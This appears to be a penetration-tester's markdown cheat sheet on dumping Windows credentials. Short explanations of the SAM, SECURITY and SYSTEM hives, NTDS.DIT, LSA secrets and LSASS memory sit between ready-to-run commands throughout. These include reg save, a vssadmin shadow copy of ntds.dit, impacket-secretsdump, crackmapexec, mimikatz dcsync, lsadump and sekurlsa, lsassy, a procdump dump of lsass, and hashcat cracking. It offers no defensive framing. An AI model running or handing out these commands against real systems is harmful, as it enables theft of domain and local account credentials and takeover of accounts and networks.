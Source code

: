 # Credentials Dumping
Requirements:
* Probably need administrator or SYSTEM or debug privileges

## SYSTEM - Keys
Required SYSTEM hive to decrypt other useful hives.

`reg SAVE HKLM\SYSTEM C:\Windows\Temp\SYSTEM`

## NTDS.DIT - All domain account hashes & kerberos keys
The AD database is saved in a file on every DC in the domain. The AD database is stored in the NTDS.DIT file located in the NTDS folder of the system root. On DC you can retrieve NTDS.DIT file for domain users. hashes can be used for Pass The Hash attack (except cached hashes).

```
vssadmin create shadow /for=C:
copy <SHADOW_PATH>\Windows\NTDS\ntds.dit C:\Windows\Temp\NTDS
vssadmin delete shadows /shadow=<SHADOW_ID>
```
`impacket-secretsdump -ntds <NTDS> -system <SYSTEM> LOCAL`

`crackmapexec smb <IP> -d <DOMAIN> -u <USER> -p <PASS> --ntds`

mimikatz # `lsadump::dcsync \all`

## SAM - Local account hashes
Windows stores and manages the local user and group accounts in a database file called Security Account Manager (SAM). It  authenticates local user logons. On a domain controller, it simply stores the administrator account from the time it was a server, which serves as the Directory Services Restore Mode (DSRM) recovery account.
`reg SAVE HKLM\SAM C:\Windows\Temp\SAM`
`impacket-secretsdump -sam <SAM> -system <SYSTEM> LOCAL`

`crackmapexec smb <IP> -d <DOMAIN> -u <USER> -p <PASS> --sam`

mimikatz # `token::elevate lsadump::sam /system:<SYSTEM> /SAM:<SAM>`
mimikatz # `token::elevate lsadump::sam`

## SECURITY - Cached domain account hashes & LSA secrets
Each time a user logs on to a domain, Windows caches the credentials supplied and stores them in the security hive in the registry of the operation system. With cached credentials, the user can log on to a domain member without being connected to a domain controller within that domain. Mscash is a Microsoft hashing algorithm that is used for storing cached domain credentials locally on a system after a successful logon. It's worth noting that cached credentials do not expire. Isnot saved on a DC.

The LSA secrets, which are secret pieces of data that are accessible only to SYSTEM account processes, are stored (in some circumstances) on the hard disk drive. Some of these secrets are credentials that must persist after reboot. Credentials stored as LSA secrets might include:
* Account password for the computer's Active Directory Domain Services (AD DS) account
* Account passwords for Windows services that are configured on the computer
* Account passwords for configured scheduled tasks
* Account passwords for IIS application pools and websites
* Passwords for Microsoft accounts

`reg SAVE HKLM\SECURITY C:\Windows\Temp\SECURITY`
`impacket-secretsdump -security <SECURITY> -system <SYSTEM> LOCAL`

`crackmapexec smb <IP> -d <DOMAIN> -u <USER> -p <PASS> --lsa`

mimikatz # `token::elevate lsadump::cache`

mimikatz # `token::elevate lsadump::lsa /inject` **? LOCAL ACCOUNTS?!**

## LSASS.exe process - active domain account hashes & tickets
The Local Security Authority Subsystem Service (LSASS) stores credentials in memory on behalfs of users with active Windows sessions. LSASS can store credentials in multiple forms, including: 
* reversibly encrypted plaintext
* kerberos tickets (ticket-granting tickets (TGTs), service tickets)
* NT hash and LM hash

Tools for remote dumping creds needs port 139 or 445 to be open for SMB:
`lsassy -d <DOMAIN> -u <USER> -p <PASS> <IP>`
`crackmapexec smb <IP> -d <DOMAIN> -u <USER> -p <PASS> -M lsassy`

Local dumping:
`procdump -accepteula -ma lsass.exe C:\Windows\Temp\lsass.dmp`
mimikatz # `sekurlsa::minidump <DUMPFILE>`
mimikatz # `sekurlsa::logonPasswords`







`hashcat -m 1000 <HASH> <PASSLIST> --potfile-disable`
`hashcat -m 2100 <HASH> <PASSLIST> --potfile-disable`


`impacket-secretsdump '<DOMAIN>/<USER>:<PASS>@<IP>'`